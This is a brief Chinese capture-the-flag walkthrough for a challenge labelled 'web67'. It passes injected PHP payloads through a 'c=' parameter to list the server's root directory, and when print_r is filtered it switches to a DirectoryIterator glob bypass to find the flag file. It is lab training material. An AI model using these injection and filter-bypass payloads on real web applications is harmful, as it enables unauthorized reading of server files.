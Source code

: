 
------

#### web67

老规矩查看flag位置

```
c=print_r(scandir(dirname('/')));
```

![image-20240122125222584](image/image-20240122125222584.png)

print_r()被禁，那我们换一个

```
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}
```

![image-20240122125401140](image/image-20240122125401140.png)

找到flag位置，构建命令查看flag
